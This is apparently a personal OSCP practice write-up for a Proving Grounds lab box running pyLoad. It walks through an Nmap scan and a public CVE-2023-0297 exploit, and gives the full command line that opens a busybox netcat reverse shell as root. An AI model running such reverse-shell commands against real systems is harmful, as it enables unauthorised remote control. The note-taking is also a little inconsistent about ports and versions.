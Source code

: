```yaml
---
Date: 2024-10-14
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.165.26
Writeup: https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
---
```

# PyLoader
I'm still shocked at how quick and incredibly easy this was - I went from boot to root in <15mins! 

After Nmap showed responses to `22` and `9666` I checked `9666` in Firefox immediately (while the Nmap scan is still running) as I'm prone to doing for anything I don't immediately recognise. As soon as I saw a page with `pyLoad` I just threw "pyload exploit" into Google, found a bunch of RCE exploits for CVE-2023-0297, and pulled up the entry on Exploit-DB. 

I figured I'd go straight for a reverse shell in the command parameter, and after getting a mistaken connection from a poorly formatted python shell, I ran a busybox reverse shell and immediately got root access!

I'm still a little confused why this box is marked "Intermediate" but I've been pretty sick all day so I'll absolutely take the easy win. I didn't bother looking up a walkthrough for this, so the "Writeup" link above is a GitHub entry on how CVE-2023-0297 was found as background instead.
# Resolution summary
- Ran Nmap to identify ports `22` & `8080`
- Visited html (`9666`) & identified `pyLoad`
- Identified exploit for CVE-2023-0297 and ran against target for reverse shell
- Received reverse shell as `root` so upgraded shell and printed `proof.txt`
## Improved skills
- Exploit identification
## Used tools
- Nmap
- python

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Pyloader.nmap 192.168.165.26 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
9666/tcp open  http    CherryPy wsgiserver
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http://192.168.165.26:9666/
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 9888 -  (Apache)
- Navigated to `http://192.168.165.26:9666` and identified `pyLoad`
![[Cybersecurity-Resources/images/Pasted image 20241014202443.png]]
	- Potentially vulnerable to CVE-2023-0297
- Navigated to `http://http://192.168.165.26:9666/robots.txt`
![[Cybersecurity-Resources/images/Pasted image 20241014202759.png]]
---
# Exploitation
- Identified potential exploit `51532.py` from [Exploit Database](https://www.exploit-db.com/exploits/51532) - copied exploit to local host, started netcat listener on port `4444` and ran exploit with python reverse shell
```
python3 51532.py -u http://192.168.165.26:9666 -c 'busybox nc 192.168.45.200 4444 -e /bin/sh'
```
- Caught reverse shell as `root`
![[Cybersecurity-Resources/images/Pasted image 20241014203650.png]]
- Ran `/usr/bin/script -qc /bin/bash /dev/null` to get full shell, then ran `cat /root/proof.txt` to print `b9c8fbfddbc8b37c93422b4d8e14d88e`
---
# Trophy & Loot
`root.txt` = `b9c8fbfddbc8b37c93422b4d8e14d88e`